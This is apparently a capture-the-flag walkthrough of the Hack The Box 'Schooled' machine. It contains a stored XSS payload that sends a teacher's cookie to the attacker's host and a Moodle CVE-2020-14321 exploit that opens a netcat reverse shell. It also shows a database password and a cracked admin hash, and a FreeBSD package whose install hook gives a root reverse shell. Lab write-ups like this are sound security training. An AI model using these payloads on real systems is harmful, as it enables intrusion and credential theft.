









1. Connect the box, get IP.  
2. Run nmap:
    ```bash
    nmap -Pn -A 10.10.10.234
    ```  
      
3. In the bottom of site, we see 'schooled.htb', add that to /etc/hosts.  
      
4. Run gobuster vhost for subdomain search:
    ```bash
    gobuster vhost -u schooled.htb -w /root/tools/dnscan/subdomains-500.txt -z -t 100 
    ```  
      
    Found moodle.schooled.htb, add that to /etc/hosts.  
5. Open moodle.schooled.htb.  
6. Create account, login, join Mathematics course, check Announcements.  
      
7. Go to Edit profile, see the MoodleNet field.  
    Type in 
    ```html
    "><h1>test</h1>
    ```  
    and Update profile, you see this:  
      
    Hence, the site has XSS (Cross-Site Scripting)  
8. Run python server on your machine:
    ```bash
    python3 -m http.server 4443
    ```
9. Type this in MoodleNet area:  
    ```html
    <script>new Image().src="http://10.10.14.7:4443?c="+document.cookie;</script>
    ```
    Wait for a while.  
10. Teacher's cookie comes in the python server. Replace that and you are the teacher now.  
      
      
11. Use this CVE: [CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).  
    Run nc server:
    ```bash
    nc -lnvp 1234
    ```
    Run this command:  
    ```bash
    python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie b2vg6doaecljo3tdro0apnbht2 --cdomain moodle.schooled.htb --cpath '/moodle/' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f'
    ```
    We get reverse shell:  
      
12. Use nc to transfer FreeBSD socat and stabilize shell.  
13. The username and password of mysql are in '/usr/local/www/apache24/data/moodle/config.php'.
    ```User: moodle, DBname: moodle, Password: PlaybookMaster2020```
14. Login to mysql,
    ```bash
    mysql -u moodle -p moodle
    ```
    Enter the password as found above.  
      
15. Run:
    ```mysql
    show tables;
    ```
    to show tables, there is a table named "mdl_user".  
16. Run:
    ```mysql
    describe mdl_user;
    ```
    to show all columns in that table, there is a column named "username" and "password".
17. Run:
    ```mysql
    select email, username, password from mdl_user;
    ```
18. We get the admin's (jamie's) password hash, crack it using john.
    ```
    hash: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    cracked: !QAZ2wsx
    ```
19. Login to jamie's ssh using the password, get 'user.txt'.
20. run sudo -l, get this:  
    
21. We need to create a custom package for FreeBSD. Refer to [this site](http://lastsummer.de/creating-custom-packages-on-freebsd/).  
22. Run this script as jamie:
    ```bash
    #!/bin/sh

    STAGEDIR=/tmp/package

    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}

    cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Resetting root shell”
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f
    EOF

    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Registering root shell”
    pw usermod -n root -s /bin/sh
    EOF

    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: “1.0_5”
    origin: sysutils/mypackage
    comment: “automates stuff”
    desc: “automates tasks which can also be undone later”
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF

    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
    ```
23. Set up a nc listener:
    ```bash
    nc -lnvp 1234
    ```
24. A .txz file will be created in the current directory. Run the following command to install the package:
    ```bash
    sudo pkg install --no-repo-update *.txz
    ```
25. And we have got our root shell. Get 'root.txt' from here.